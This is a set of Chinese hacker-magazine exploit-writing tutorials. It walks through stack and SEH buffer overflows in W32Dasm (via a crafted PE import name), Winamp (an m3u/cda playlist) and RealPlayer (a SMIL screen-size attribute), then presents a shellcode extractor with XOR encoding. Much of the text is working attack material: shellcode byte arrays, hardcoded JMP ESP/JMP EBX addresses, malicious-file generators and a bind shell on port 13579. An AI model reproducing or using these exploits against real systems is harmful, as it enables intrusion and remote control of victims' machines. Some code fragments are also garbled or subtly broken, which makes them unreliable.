```asm
USER32! wsprintfA
77D1C96A  LEA EAX, [ESP+0C]
77D1C96E  PUSH EAX
77D1C96F  PUSH DWORD PTR [ESP+0C]
77D1C973  PUSH DWORD PTR [ESP+0C]
77D1C977  CALL USER32! wvsprintfA
77D1C97C  RET
```

看来，`Wsprintfa` 只是原封不动调用了 `WvsprintfA` 函数而已。我们可以用 `D` 命令分析传过来的参数，就可以知道要格式化输出的东西是什么了。中断了多次，包括处理 `Select a File for Disassembly`、`Loading`、`allocation` 等字符串后，终于到了拷贝函数名的过程，这下要小心地跟下去了。在“`77D1C97C RET`”执行后，返回到了 W32Dasm 程序的空间中，停留在 `0045D8E0` 中，附近的代码为：

```asm
0045D8C8  LEA EAX, [EBX+00640A2B]
0045D8CE  PUSH EAX
0045D8CF  PUSH 00403818
0045D8D4  LEA EDX, [EBP-00FC]
0045D8DA  PUSH EDX
0045D8DB  CALL USER32! wsprintfA
0045D8E0  ……
```

换成高级语言，就是“`WsprintfA(EDX,00403818,EAX);`”。再继续跟踪，可以看到该子函数的返回语句在 `0045DCD6`：`0045DCD6 RET`。通过查看参数可知，格式串为“`%s`”，`EAX` 是引入函数名字符串，而 `EDX` 指向栈上的局部缓冲区 `[EBP-00FC]`。`WsprintfA` 不会检查函数名字符串长度，会一直拷贝直到 `0x00`，可能覆盖返回地址并劫持执行流程。

我们看看是哪个子函数的地址会被覆盖。在执行“`CALL wsprintfA`”前，敲入“`D EBP+4`”可以看到保存的返回地址为 `00457F3B`；输入“`U 00457F3B`”查看附近代码：

```asm
00457F36    CALL 0045D3C1
00457F3B    POP ECX
```

漏洞产生的流程为：```asm
00457F36  CALL 0045D3C1
...
0045D8C8  LEA EAX, [EBX+00640A2B]
// 函数名
...
0045D8DB  CALL USER32!wsprintfA
...
0045DCD6  RET


```

如果函数名过长，wsprintfA 可以把子函数 0045D3C1 保存的返回地址覆盖掉，从而引发缓冲区溢出。

找到问题代码后，我们可以精心构建一个可执行文件，把输入/输出表中的函数名称构造超长，并带上跳转指令和 ShellCode。如果用户使用 W32Dasm 调试，就可以让进程权限在系统上执行任意指令。

如何在文件中构建超长的输入/输出函数名呢？这就涉及到 PE 文件格式和输入/输出表了。

#### PE 文件格式分析

PE 的意思就是 Portable Executable（可移植的执行体）。“Portable Executable”意味着此文件格式是跨 Win32 平台的，即使 Windows 运行在非 Intel 的 CPU 上，任何 Win32 平台的 PE 装载器都能识别和使用该文件格式。PE 文件结构的总体层次分布如下图所示。
所有 PE 文件（甚至 32 位的 DLLs）必须以一个简单的 DOS MZ header 开始；随后是 DOS stub。DOS stub 实际上是一个有效的 EXE，在不支持 PE 文件格式的操作系统中会显示错误提示，通常为“This program cannot run in DOS mode.”

紧接着 DOS stub 的是 PE header。PE header 是 IMAGE_NT_HEADERS 的简称，包含装载器使用的重要域。执行体运行时，装载器从 DOS MZ header 中定位到 PE header 的起始偏移量，跳过 DOS stub 直达真正的 PE header。

PE 文件的真正内容被划分成块，称为 Sections（节）。每节是一块拥有共同属性的数据（如代码/数据、读/写等），节的定位信息放在 PE header 后面的 section table（节表）中。

在这儿我们只关心输入/输出表，所以对 Sections 并不感兴趣，只看和输入/输出表有关的 PE header 结构。PE header 的定义如下：

```c
IMAGE_NT_HEADERS STRUCT
  Signature dd ?
  FileHeader IMAGE_FILE_HEADER <>
  OptionalHeader IMAGE_OPTIONAL_HEADER32 <>
IMAGE_NT_HEADERS ENDS
```

具体来说，Signature——dword 类型，值为 50h,45h,00h,00h（"PE\0\0"），本域为 PE 标记，可据此识别给定文件是否为有效 PE 文件。

FileHeader 结构域包含 PE 文件物理分布信息（节数、机器类型等）。OptionalHeader 结构域包含 PE 文件逻辑分布信息，虽名为“可选”，但实际总是存在。

我们关心的是 OptionalHeader 结构最后的 DataDirectory 数组，它是 16 个 IMAGE_DATA_DIRECTORY 结构数组，指明执行文件重要部分的起始 RVA 和长度，定义如下：

```c
typedef struct _IMAGE_DATA_DIRECTORY {
  DWORD VirtualAddress; // 该部分的RVA
  DWORD Size;           // 该部分的大小
}
```

DataDirectory 的 16 个 IMAGE_DATA_DIRECTORY 元素中，第一个总是 Exported Function Table（输出表）的地址与长度；第二个是 Import Table（输入表）的地址和长度。

- 1. 从 DOS header 定位到 PE header。  
- 2. 从 OptionalHeader 读取 DataDirectory 的地址。  
- 3. 用 IMAGE_DATA_DIRECTORY 结构尺寸乘上目标结构索引号。  
- 4. 将结果加上 DataDirectory 地址，得到包含查询数据结构信息的 IMAGE_DATA_DIRECTORY 结构项。

找到对应的 IMAGE_DATA_DIRECTORY（如输入表）后，其 VirtualAddress 就指明了引入表地址。

引入表实际上是一个 IMAGE_IMPORT_DESCRIPTOR 结构数组。每个 IMAGE_IMPORT_DESCRIPTOR 包含 PE 文件引入函数相关 DLL 信息。该数组以全 0 成员结束。

```asm
IMAGE_IMPORT_DESCRIPTOR STRUCT
  OriginalFirstThunk dd ?
  TimeDateStamp dd ?
  ForwarderChain dd ?
  Name1 dd ?
  FirstThunk dd ?
IMAGE_IMPORT_DESCRIPTOR ENDS
```

这里只关心 OriginalFirstThunk 和 FirstThunk。OriginalFirstThunk 包含一个 IMAGE_THUNK_DATA 结构数组的 RVA，IMAGE_THUNK_DATA 是 Dword 集合，以全 0 结束，内容是指向 IMAGE_IMPORT_BY_NAME 结构的指针。

```asm
IMAGE_IMPORT_BY_NAME STRUCT
  Hint dw ?
  Name1 db ?
IMAGE_IMPORT_BY_NAME ENDS


```

Hint 指示本函数在其所驻留 DLL 的引出表中的索引号，该域被 PE 装载器用来在 DLL 的引出表里快速查询函数。该值不是必须的，一些连接器将此值设为 0。

Name1 含有引入函数的函数名，函数名是一个 ASCIIZ 字符串。注意这里虽然将 Name1 的大小定义成字节，其实它是可变尺寸域，只不过我们没有更好的方法来表示结构中的可变尺寸域。

我们就是要改变这儿的 Name1，因为没有字段指明函数名的长度，是以 0x00 为结束标志，所以我们只要把 Name1 改为超长的函数名就可以引发 W32Dasm 的溢出了。

FirstThunk 与 OriginalFirstThunk 非常相似，它也包含指向一个 IMAGE_THUNK_DATA 结构数组的 RVA，IMAGE_THUNK_DATA 数组虽然不一样，但里面包含的值却也是一样的。如图 3 所示。
虽然现在这两个数组都一样，但在执行的时候就不同了。

## ☆文件的构建和漏洞的利用

搞清楚了 PE 文件的结构后，我们可以使用 PE 编辑工具来修改，我用的是 Lord PE。运行如图 4 所示。
点击 PE Editor 可以选择可执行文件来加以分析和修改，给出的 PE 分析信息非常详细，添加和修改 PE 内容也很方便，的确是一个非常好用的工具。

有了这么多期“溢出研究”版块的熏陶，大家应该知道我们构造的函数名应该为如下格式：

```text
构造的函数名格式 = NNNNNNSSSSSSSS
NNNNNNRJMPBACK
```

- N = NOP 空指令 0x90，什么都不做；
- S = ShellCode；ShellCode 的具体写法，参看上一期杂志。

```c
char shellcode[] =
"\x55\x8B\xEC\x83\xEC\x2C\xC7\x45\xF4"
"\x63\x6F\x6D\x6D\xC7\x45\xF8\x61\x6E"
"\x64\x2E\xC7\x45\xFC\x63\x6F\x6D\x22"
"\x33\xD2\x88\x55\xFF\x8D\x45\xF4\x50"
"\x88\x44\x80\xBF\x77\xFF\xD0\x90\x90";
R = 覆盖地址，我们使用 JMP ESP 的通用地址 0x7FFA4512 来覆盖；


```

JMP BACK = 往回跳。我们把 ShellCode 放在前面，所以用一个 E9 0B FF FF FF 往前跳入前面的 NOP 中，最后顺序执行到 ShellCode 中。

现在我们知道怎么改了，也知道改什么了；点击 PE Editor 的“Directories”按钮，进入到 Directories 的修改中。如图 5 所示。
在“ExportTable, ImportTable”右面，有“...”“L”和“H”3 个按钮，如下图 6 所示。

其中点击“...”会出现 PE 头结构分析；点击“L”会出现结构列表；而点击“H”就可以出现 16 进制编辑器加以编辑。我们点击“H”进入编辑状态，把引入函数名改成我们构造好的函数名，如图 7 所示。
修改完后，我们用 W32Dasm 反编译该精心构造的文件，弹出了 DOS 控制台，得到了一个 Shell，利用成功！

## ☆小结

该漏洞的利用思路基本还是和普通堆栈溢出一样，但麻烦之处在于要构造 PE 文件头结构，需要 PE 结构的知识。可以看出，安全技术是一个整体，只有各方面都系统地掌握，打好基础，才能有更好的发展空间。

### 菜鸟版 Exploit 编写漏洞利用之——玩转 Winamp 漏洞

文/图 川大信息安全研究所 王炜、戴宗坤
缓冲区溢出最常见的形式是堆栈溢出，产生的原因一般是在函数内定义了像 `char buf[256]` 这样的数组以保存字符串，编译器在编译时会在堆栈中分配固定容量。当使用 `strcpy`、`sprintf` 等函数往 `buf` 里拷贝字符串时，因为不会检查字符边界，所以源串超过 256 字节时就会超出 `buf` 数组空间，覆盖掉堆栈中的其他数据，从而造成堆栈缓冲区溢出。
除了堆栈溢出外，常见的还有堆溢出：程序中使用 `malloc` 等函数在 heap 区动态分配内存后，同样使用 `strcpy`、`sprintf` 等函数拷贝时，可能超过分配大小并覆盖堆中其他数据。其他溢出形式还有字符串溢出、C++ 虚函数指针溢出、短整型变量溢出等。缓冲区溢出后，如果只是随意覆盖数据，通常造成进程异常；若精心构造覆盖数据，则可能执行攻击者代码，实现控制目标机。

#### 堆栈溢出的两种基本利用方式

因为各种溢出所覆盖的系统结构各不相同，所以有不同的利用形式，同时又可能综合起来考虑才能达到目的。对于堆栈溢出来说，Windows 系统下有两种基本利用方式。

##### 1. JMP ESP 覆盖方式

这种利用方法是 dark spyrit AKA Barnaby Jack 在 1999 年提出的，是 Windows 下缓冲区溢出利用的一个标志，标志着 Windows 下堆栈溢出的利用进入了成熟阶段。该方式利用 `strcpy` 等函数覆盖堆栈，在返回地址位置写入 `JMP ESP` 地址，再将 ShellCode 紧跟其后。函数返回时执行 `RET`，EIP 跳到 `JMP ESP`，随后 ESP 指向 ShellCode 首字节并执行，实现跳转到攻击代码。
```c
#include <stdio.h>
#include <string.h>
char name[] = "1111";
int main()
{
    char output[4];
    strcpy(output, name);
    return 0;
}
```

局部数组 `output` 只有 4 字节空间，而 `strcpy(output, name)` 不检查长度，因此可通过构造 `name` 数据实现堆栈缓冲区溢出利用。

```c
char name[] = "\x41\x41\x41\x41"   // output[0-3]
              "\x41\x41\x41\x41"   // ebp
              "\x12\x45\xFA\x7F"   // ESP -> JMP ESP 的地址
              "\xCC\xCC\xCC\xCC";  // ShellCode


```

能否达到目的可通过单步调试观察：在 `main` 函数末尾 `RET` 时，EIP 会被覆盖到构造地址，并进一步跳转到 ShellCode。

7FFA4512，如图 2 所示。
继续 F11 单步执行，EIP 跳转为 7FFA4512，可以看到对应的指令是 FF E4 = JMP ESP，如下图 3 所示。
而此时的 ESP 指向我们的 ShellCode="\xCC\xCC\xCC\xCC"。那么执行 JMP ESP 后，果然进入到了我们的 ShellCode 中了，如图 4 所示。
到了这一步，已经完成了缓冲区溢出漏洞的利用。在实际中，只要把 "\xCC\xCC\xCC\xCC" 改成真正可用的 ShellCode 即可。

##### 2. CALL EBX/POP POP RET 覆盖方式

这种方法是人们对 Windows 系统结构更加深入了解后，达到的一种质的提升。这种方法不是覆盖函数的返回地址，而是覆盖 Windows 系统的异常处理链 SEH！
在 Windows 系统下，当发生异常时，有一个健全的出错处理机制——异常处理链 SEH，其链表的结构如图 5 所示。

当系统遇到一个异常时，就会查找异常处理链 SEH，找对应这种异常处理程序，找到后就把保存的处理程序地址赋给 EIP，这样系统就会执行处理程序，以避免系统崩溃。如果到异常处理链的最后都没有适合的处理程序时，就会引发系统默认异常，弹出一个出错对话框，结束出错进程。

在 Windows 系统下，SEH 链保存在堆栈中。所以这种 CALL EBX 方式，就是将顶层 SEH 中的指向下一结点的值覆盖成 JMP 04，而处理程序地址覆盖成“CALL EBX/POP POP RET”的地址，后面跟上 ShellCode。这样出错后，Windows 就会跳到处理程序中，执行 CALL EBX 或 POP POP RET，进入前面的 JMP 04 中，再执行 JMP 04 就正好跳过覆盖的地址，达到我们的 ShellCode！

```c
char name[] =
"\x41\x41\x41\x41"  // name[0]-name[3]
"\x41\x41\x41\x41"  // 覆盖ebp
"\x41\x41\x41\x41"  // 覆盖eip为非法
...
"\x90\x90\xEB\x04"  // JMP 04
"\x71\x15\xFA\x7F"  // 处理程序地址
"\xCC\xCC\xCC\xCC"; // ShellCode


```

单步执行观察，当执行到 main 函数的 RET 时，会返回到 41414141 地址中，如图 6 所示。因为该空间没有指令加载，所以会引发异常，系统进入异常处理流程，但我们已经把异常处理链 SEH 精心覆盖，所以最后会跳转进入我们的 ShellCode="\xCC\xCC\xCC\xCC" 中，如图 7 所示，从而实现了利用。

“JMP ESP”和“CALL EBX”这两种方式都使用得非常广泛。
图6
图7

这两种中的一种。但有些时候会有一些比如特殊的漏洞，即使是堆栈溢出，也需要特殊的分析、特殊的利用才能成功，比如 Winamp 的 in_cdda 漏洞。

#### Winamp m3u 漏洞分析和利用

##### 1. 漏洞简介

M3U 是一种媒体序列格式，通常作为播放列表，保存一系列要播放的媒体。一般 .m3u 文件的格式要求如下：

```text
#EXTM3U
#EXTINF:111,3rd Bass - Al'z A-B-Cee z
mp3/3rd Bass/3rd bass - Al z A-B Cee z.mp3
```

第一个值是 #EXTM3U，是该 M3U 文件的标识符，始终不变。标志下面两排内容为一对，标明一个媒体内容。第一排开头首先是 #EXTINF，作为记录标志，也是不变的；接着冒号“:”后是一个数字，表示该记录的时间长度，单位是秒；时间后是逗号，再接着就是音轨的名字（不是文件名）。第二排就是真实的文件名字。

M3U 还有其他的一些格式规范，当 Winamp 播放器在打开播放列表文件（.m3u），并处理 .cda 格式时，就会产生缓冲区溢出。首先生成一个 .m3u 文件，按照格式要求输入如下的数据：

```text
#EXTM3U
C:\1234567890ab1234.cda
```

保存后用 Winamp 打开，Winamp 自动关闭！看来引发了溢出。漏洞的原因是 Winamp 调用 in_cdda.dll 处理 M3U 文件中的 cda 格式，但 cdda 库只能存储有限个字节，从而导致缓冲区溢出。

##### 2. 漏洞的分析和特殊利用

一般的堆栈溢出利用，找到了函数覆盖的返回点或异常处理点后，就可以使用上面介绍的方法，用通用地址覆盖即可。但这个漏洞却有点不一样。这次用 OllyDbg 加载，再用 Winamp 打开构造的文件。会出现两次异常，第一次在：

```asm
10009BE8  884C04 30    MOV BYTE PTR SS:[ESP+EAX+30],CL


```

这里我们可以不管，在实际运行时，Winamp 可以自己处理。按 Shift+F9 跳过后，进入第二次执行错误，如图 8 所示。
图8

不能执行的 0x34333231 是我们覆盖的数据，这下可以控制程序的流程跳转了，但观察堆栈 ESP 附近，却没有我们覆盖的数据！这样即使执行 JMP ESP 之后，也进入不了我们的 ShellCode，当然更谈不上使用 CALL EBX 的利用方式了。

那怎么办呢？在 JMP ESP 利用方法出现之前，尤其是在 Linux 下，堆栈溢出的利用一般是将返回点直接覆盖成 ShellCode 的地址。在 Linux 下，堆栈地址不会含 0x00，而且可以通过环境变量绝对定位 ShellCode 的地址，所以利用起来比较简单。Windows 下一般不能使用这种方法，但在这里，却可以特殊地使用一次。

主程序的堆栈中没有我们输入的数据，但 DLL 中可能有我们输入的数据，而 DLL 位于的地址是比较高的地方，首位可能不含 0，那么就可以直接用 ShellCode 的地址定位了。

先搜索一下。在 OllyDbg 中按 ALT+M，弹出内存窗口，选择 in_cdda 的数据段，如图 9 所示。在弹出的内存数据中，按 Ctrl+B 输入我们要查找的字符串内容“C:\1”，结果如下，果然有我们的数据，在 0x100245B8 起始的地方，而且该地址不含 0x00，如图 10 所示。

那这里就使用直接覆盖地址的方法。把 C:\1234567890ab1234.cda 中的第二个 1234 改成在内存中的地址 0x1002456B，然后再跟真正的 ShellCode，如此改动 M3U 文件后再运行 Winamp 测试，果然成功！

用法都有特殊的时候，其他诸如堆溢出、字符串溢出，更是需要具体漏洞具体分析，才能解决。

```cpp
#include <stdio.h>
#include <windows.h>
#define HEADER "#EXTM3U\n"
char shellcode[] = "C:\\1234567890ab1234.cda";
int main(int argc, char* argv[])
{
    FILE *fp;
    char *sc = (char *)malloc(sizeof(shellcode) + 1);
    if (sc == NULL)
    {
        printf("malloc error\n");
        return -1;
    }
    memset(sc, '\0', sizeof(sc));
    memcpy(sc, shellcode, sizeof(shellcode));
    fp = fopen("test.m3u", "wr+");
    if (!fp)
    {
        printf("error opening file.\n");
        return -1;
    }
    fwrite(HEADER, 1, strlen(HEADER), fp);
    fwrite(sc, 1, strlen(sc), fp);
    fclose(fp);
    return 0;
}
```

各类溢出的利用都有一般的基础方法，但由于实现、环境的不同，也总有特例。连很规范的堆栈溢出利用……

> WTF：RealNetworks 公司开发的 RealPlayer 是现在使用比较广泛的媒体播放工具之一……漏洞，也接踵而来！

- 适合读者：漏洞分析员、入侵爱好者、程序员
- 前置知识：汇编代码基本阅读能力

## 菜鸟版exploit编写指南之十二：
## RealPlayer 溢出分析利用

文/图 dangguai27

最近几年，RealPlayer 在流行的同时也不断曝出安全漏洞。2005 年 3、4 月又传出了两个新的缓冲区溢出漏洞，smil 溢出漏洞是其中的一个，这个漏洞影响到几乎 6.0.12.1056 及以下所有版本。这让人觉得如此流行的 RealPlayer 真的是把双刃剑，我们在享受生活的同时还得注意网络安全。

下面，大家就来看看这个漏洞的分析和利用过程，分析的中间也出现了一些意想不到的问题，一起来解决它。

#### 漏洞起因

这个漏洞的公告和描述如图1所示。公告的意思是说 RealPlayer 在调用 strcpy() 函数拷贝 smil 文件的某些属性字段时，没有进行字符串的长度检测，从而存在堆栈溢出漏洞，可能被远程攻击者利用以获取系统权限。

公告上给出的信息看起来比较多，拷贝字符串的函数（strcpy）、给定缓冲区大小（256）以及溢出类型（堆栈溢出还是堆溢出？）等都告诉我们了，照理讲也可以慢慢分析下去了。

既然是在处理 .smil 文件的时候发生的溢出，按照一般步骤，就先来认识一下 Smil。

Smil（同步多媒体集成语言）可看成 XML 的一个自定义标记扩展，它是一种多媒体播放控制语言。顾名思义，Smil 主要用来进行对各类多媒体播放的时间以及空间布局方面的控制。也就是说，我们可以自己将各种音频、视频、文字和图片等不同格式的文件按任意方式组合成 SMIL 格式的文件，然后通过媒体播放出来。

一个完整的 SMIL 文件格式如下：

```xml
<smil>
<head>
<meta name="copyright" content="Your Name" />
<layout>
<!-- layout 标记 -->
</layout>
</head>
<body>
<!-- 媒体标记 -->
<text src="aa.txt" region="size" system_screen_size="screen-size属性" />

</body>
</smil>
```

针对这个漏洞，溢出就是在拷贝文件“screen-size 属性”时发生的。接下来，就应该轮到利用 Softice 定位确定问题代码了，但是这个过程中却遇到一系列的问题，差点迫使我放弃。

#### 漏洞分析困惑重重

在本文中，我所实验的机器是 Windows 2000，各 SP 都试过没问题。打开 Softice，然后按 Ctrl+d 或 F5 回到 Windows，运行 RealPlayer10，再呼出 Softice，输入命令：

```text
addr realplay
bpx strcpy
```

回车后进入 realplay 的进程空间。再输入命令 bpx strcpy，回车后就在函数 strcpy() 处设置断点。如果进程中调用 strcpy() 函数进行字符串拷贝的话，Softice 就会弹出来。回到 Windows 下，构造一个 Smil 文件，其中 Screen-size 属性的填充为 2000 个字节的 NOP，即：

```text
system_screen_size=NNNNN......NNNNNN
```

文件其他信息可以参见光盘中的源代码，文件存为 vuln.smil。OK，现在从 RealPlayer 的“文件”->“打开”->“浏览”打开 vuln.smil。Why？并没有弹出 Softice，但是 RealPlayer 却发生异常退出了。这是什么原因呢？难道拷贝字符串的函数不是公告中给出的 strcpy()？

带着疑问，我打开了反汇编工具 W32DASM，想看看究竟。运行 W32DASM89 后，在“Disassembler”->“Open file to Disassemble”中打开 RealPlayer.exe，然后打开“functions”->“Imports”，如图2所示。

找了半天，里面的确没有 strcpy，反倒有很多字符串拷贝函数，如 strncpy、sprintf、vsprintf、wcscat、wcscpy、wsprintfA 等，莫非是调用它们其中的一个么？没办法，只好一个一个尝试了。由于它们大多是 msvcrt.dll 中的函数，所以我在 Softice 的 winice.dat 文件中添加了一个启动项 `EXP=\SystemRoot\system32\msvcrt.dll`，在启动 Softice 时会加载该 DLL。结果，按照前面的实验方式，strncpy、sprintf、vsprintf 没有弹出，wcscpy、wcscat 虽然弹出了 Softice，但是都是在打开文件之前就弹出了，给出的信息如下：

```asm
ntoskrnl!wcscpy
0008:804624D6  MOV ECX, [ESP+08]
ntoskrnl!wcscat
0008:804624AC  MOV EAX, [ESP+04]
```

而在打开文件 Smil 之后就不再弹出 Softice，也不符合要求。最后剩下的 wsprintfA 看来是最有可能的了。但是 wsprintfA 从设置断点的时候开始，就不断弹出 Softice，小心翼翼地往下跟啊跟，边按 F12 边观察 ESP、EBP 等寄存器值的变化，跟到最后，经过很多代码，到了 User32!DispatchMessage() 处，Softice 自动退出后回到了 Windows 下，RealPlayer 继续运行，最终还是发生异常关闭。哎，平时百试不爽的常规分析方法对于这个漏洞居然行不通？都闷啊！

### 直捣覆盖SEH

近乎绝望之际，我想起了一年前研究怎样将覆盖 EIP 的溢出利用方式转换为覆盖 SEH 方式的情景。当时的情况是手上有一些堆栈溢出漏洞，如 RPC、SQL、LSA 等系统服务漏洞，只能通过覆盖函数返回地址为 JMP ESP 的地址来进行利用。由于种种原因，需要将攻击程序改写为通用版本……

其实整个操作系统的异常处理指针都是存放在一个链式数据结构中的，每个线程的 ERR 是其中的一个结点……如果能够准确定位线程 ERR 地址的话，问题将很可能得到解决。

回到这个 RealPlayer 漏洞，在不能确定 EIP 保存地址的情况下，我们可否直接利用 SEH 编写攻击代码呢？答案几乎是肯定的……对此，可以进行验证。

```c
char header[] = "...";
char end[] = ...;
char system_screen_size[2000];
FILE *fvuln;
fvuln = fopen("vuln.smil", "w");
memset(system_screen_size, 0x90, sizeof(system_screen_size));
fprintf(fvuln, "%s%s\"/ >\"%s", pre, system_screen_size, end);
fclose(fvuln);
```

编译、执行文件，生成 vuln.smil，运行 realplay，按 Ctrl+O 呼出 Softice，输入 `addr realplay` 进入 realplay 空间，再输入 `bpx 90909090`，然后回到 Windows……

```text
001B:9090908E  FFFF INVALID
001B:90909090  FFFF INVALID
001B:90909092  FFFF INVALID
```

我们更关心的是 FS:0 和 EBX。查看寄存器 EBX=0012f660，输入命令 `D FS:0`，数据显示的 4 字节是 6c:0012ee00。

这时候仍然在 Realplay 进程空间中，因此这 4 字节虽然是一个 ERR 结构的地址，但是不是处理 Screen-size 属性部分的 ERR 地址呢？不是！因为这个时候异常已经发生……

```text
60 F6 12 00    AE 6D F9 77
|--上一级ERR地址--|  |--当前异常处理代码地址--|
```

0x0012f660 正好是当前 EBX 的值，一切都顺利了。整理一下思路……两者相减 0x0012f660 - 0x0012f20c = 0x454，即相差 1108 字节，于是在刚才的代码中加入：

```c
memcpy(system_screen_size + 1108, "\xeb\x06\xeb\x04", 4);
/* 跳过异常处理代码地址的四个字节去执行shellcode */

memcpy(system_screen_size + 1112, "\x1b\x4a\xfa\x7f", 4);
/* 通用的jmp ebx地址 */

memcpy(system_screen_size + 1116, shellcode, strlen(shellcode));
// 监听端口13579
```

一切准备 OK 后，编译、执行，生成新的 vuln.smil，直接双击 vuln.smil，然后在命令行下输入 `telnet 127.0.0.1 13579`，果然获取了熟悉的 DOS 窗口！

关于 ShellCode，我再说两句。Shellcode 的编写已经有很多资料介绍了，这里不再赘述……如果打开 vuln.smil 后弹出“RealPlayer 无法打开此剪辑”的错误提示框，则应检查 ShellCode 中是否包含限制字符并重新编码。

#### 小结

本文我主要介绍了在暂时无法精确定位问题代码的情况下，如何利用覆盖 SEH 来编写有效的攻击代码，对 RealPlayer Smil 溢出漏洞进行利用。一方面这种方法具有一定通用性；另一方面这又是无奈之举……欢迎指教。

- 适合读者：溢出爱好者、入侵爱好者、编程爱好者  
- 前置知识：汇编、C 代码基本阅读能力

## 菜鸟版Exploit编写指南之十三：
## 我来写ShellCode生成器

文／图 Scunkr 古开元

黑防以前 N 多文章已经介绍了 ShellCode 的编写，所以关于 ShellCode 的编写不是本文的目的。一般情况下，我们都是用汇编写好实现 ShellCode 功能的汇编代码，然后再提取 16 进制。那怎么提取呢？有人说用 VC 反汇编后，可以得到对应的 16 进制代码，然后手抄！Oh……晕死！有人说用内存拷贝！Oh……也比较笨，而且还要自己做一些麻烦的处理。呵呵，说了这么多废话，就是引出本文的写作目的：给大家介绍如何通过编程来实现提取 ShellCode 的 16 进制代码，并且能提供对 ShellCode 进行 XOR 加密而避开特殊字符的限制。

这里首先要感谢 delicon（国外的一个牛人），因为我这里的编程实现有部分借鉴他提供的源代码，其实在安全焦点、navyseals 已经提供了 ShellCode 提取的小工具。如果大家只是要用工具，那么可以直接去下载来用，不过有人说过，不会自己写工具的人不是一个真正的黑客。呵呵，你想成为真正的黑客吗？OK……Do it yourself!

如果是实现小型功能的 ShellCode，我们大可以用 VC 的内联汇编功能，但如果是要实现功能复杂一点的 ShellCode，VC 的内联汇编就远远不能满足我们的要求了，而且内联汇编不易移植。这时候我们就要换一个更为强大的汇编编译器 NASM（附件里有收录），我们可以先用汇编写好代码。比如我们写一段开 DOS 窗口的汇编代码，如下：

```asm
push ebp
mov ebp, esp
push ebx
mov byte ptr [ebp-4], 63h
mov byte ptr [ebp-3], 6Dh
mov byte ptr [ebp-2], 64h
mov byte ptr [ebp-1], 0

push 5
lea eax, [ebp-4]
push eax
mov eax, 0x77e4fd35
call eax
pop esp
```

> 上面 0x77e4fd35 是 WinExec 函数在作者计算机（Windows XP SP1）上的函数入口地址，不同的系统该地址可能不同。

这段汇编代码实现的功能对应的 C 语言如下：

```c
#include <windows.h>
void main()
{
    char cmdline[4] = "cmd";
    WinExec(cmdline, SW_SHOW);
}
```

如果我们用在 VC 的内联汇编中，就应该是下面这样的格式：

```c
#include <windows.h>
void main()
{
  __asm{
    push ebp
    mov ebp, esp
    push ebx
    mov byte ptr [ebp-4], 63h
    mov byte ptr [ebp-3], 6Dh
    mov byte ptr [ebp-2], 64h
    mov byte ptr [ebp-1], 0

    push 5
    lea eax,[ebp-4]
    push eax
    mov eax,0x77e4fd35
    call eax
    pop esp
  }
}
```

看，也就是把内联汇编块用 `__asm{}` 包起来。好，我们编译运行，可爱的 DOS 窗口就弹出来了，如图1所示。

那么我们怎么运用 NASM 来编译汇编代码呢？很简单，把实现功能的汇编代码段（比如上面这段开 DOS 窗口的代码）在代码的第一行加上 `BITS 32`，如图2所示。然后把汇编代码段里的类型转换指令 `PTR` 全部去掉（因为 NASM 的 BYTE 已经做了优化，它本身已经相当于 MASM 的 PTR BYTE 了），保存在一个后缀名为 `.asm` 的文件里。比如上面的，我保存为 `cmd.asm`，然后在命令行下输入下列命令：

```text
nasm -s -fbin cmd.asm

参数解析：-s 重定向错误消息到标准输出，便于查看错误；
-f 后接有效的输出格式，比如可以接 -fbin、-fwin32、fobj 等。
如果不跟格式，就表示默认为 -fbin，生成平坦格式的二进制文件（具体详细的命令参数可以查看 NASM 帮助）。
```

如果没有错误，就会生成一个名为 CMD 的文件。如果用 UltraEdit 查看，你会发现里面就是我们想要的 ShellCode 十六进制码（如图3所示）。有些读者开始用鼠标框选、拷贝，这样做和 VC 里内存拷贝区别不大，而且还要手工在每个字节前加 `\x` 或 `0x`。既然 16 进制码都有了，我们还不如写个提取 ShellCode 的小程序。

```c
{
    bb = buff[i];
    fprintf(myfile, "\\x%2.2X", bb);
    if(i%16==0)    // 每行16个字节
    {
        fprintf(myfile, "\"");
        fprintf(myfile, "\n\"");
    }
}

// 关闭文件流
fclose(myfile);
fclose(fp);
return;
}
```

整个程序思路很简单，就是基本的文件读取操作而已。提供一个文件名，按二进制读取，然后在每个字节前加上 `\x`，输出到 `ShellCode.txt`。例如编译后生成 `ShellCode_Gen.exe`，对前面生成的 CMD 文件执行：`ShellCode_Gen.exe CMD`，若无错误就得到 `ShellCode.txt`（如图4）。

```c
void ShellCodeGenerater(char *file)
{
    int iFileSize;
    FILE *fp = NULL;

    fp = fopen(file, "rb");
    if(fp == NULL)
    {
        printf("Error: Unable to open %s!\n", file);
        exit(1);
    }

    // 计算文件大小
    fseek(fp, 0, SEEK_END);
    iFileSize = ftell(fp);
    fseek(fp, 0, SEEK_SET);

    BYTE bb;
    char *buff = (char *)malloc(iFileSize);
    if(fgets(buff, iFileSize, fp) == NULL)
    {
        printf("Error: Unable to read from file.\n");
        exit(1);
    }

    FILE* myfile;
    myfile = fopen("ShellCode.txt", "w");
    fprintf(myfile, "char shellcode[] = \n");
    fprintf(myfile, "\"");
    for(int i=0; i<iFileSize; i++)
```

这样就可以轻松地拷贝了，而且免去了手工添加 `\x` 的痛苦。一般用于缓冲区溢出的 ShellCode 对编码有要求，典型的是不能有 `0x00` 空字符；有些漏洞程序还有特殊字符限制，因此需要对 ShellCode 编码。可以选一个 XOR 值（如 `0x97` 或 `0x99`）对全部字节异或，解码时再异或回来。

对于上面的 `void ShellCodeGenerater(char *file)`，我们做一点小改动，增加参数：`void ShellCodeGenerater(char *file, char *xorchar)`。其中第 2 个参数是命令行传入的 XOR 字节（如 `0x97`）。写入 ShellCode.txt 前先逐字节 XOR，并记录 `\x00` 字节个数。

```c
for(int i=0; i<iFileSize; i++)
{
    // bEncodeChar 由 strtoul(xorchar, NULL, 0) 转换得到
    buff2[i] = buff[i]^bEncodeChar;
    if (buff2[i] == '\x00')
        CountOfNull++;   // 统计 "\x00" 个数
}
```

到这还没完，我们只是避开了“\x00”空字节，那其他的特殊字符呢？比如 RPC 溢出利用中对“\”做了限制？来解决这个问题，精益求精嘛。上面的程序只需要改动一点点，先添加一个函数，它检验并计算存在多少个我们所指定的不包括“\x00”在内的非法受限字符，该函数定义如下：

```c
int GetNumOfIllegalChar(char *buffer, char* IllegalChar)
{
    char *p;
    int count = 0;
    for (; *IllegalChar; IllegalChar++)
    {
        p = strchr(buffer, *IllegalChar); // 查找非法字符
        if (p) count++;
    }
    return count;
}
```

